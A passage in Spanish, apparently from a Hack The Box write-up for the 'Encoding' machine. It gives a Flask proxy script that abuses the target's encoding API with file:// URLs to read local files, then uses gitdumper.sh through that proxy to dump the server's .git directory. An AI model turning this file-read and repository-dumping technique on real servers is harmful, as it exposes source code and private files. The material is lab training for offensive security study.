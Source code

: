 Podemos hacer un servidor HTTP flask que actue como proxy para `gitdumper.sh`

```py
from flask import Flask
import requests, json, base64


app = Flask(__name__)

@app.route('/<path:filepath>')
def index(filepath):
    json_data = {
        'action': 'b64encode',
        'file_url': 'file://' + '/var/www/image/' + filepath
    }
    r = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    d = json.loads(r.text.strip())
    res = base64.b64decode(d["data"])
    return res
```

Luego ejecutaremos el script

![](/assets/img/HTB/Encoding/flask.png)p

Ahora intentaremos lo mismo con `gitdumper.sh` pero en vez de la url de antes la url sería `http://127.0.0.1:5000/.git/`. Esta vez funciona
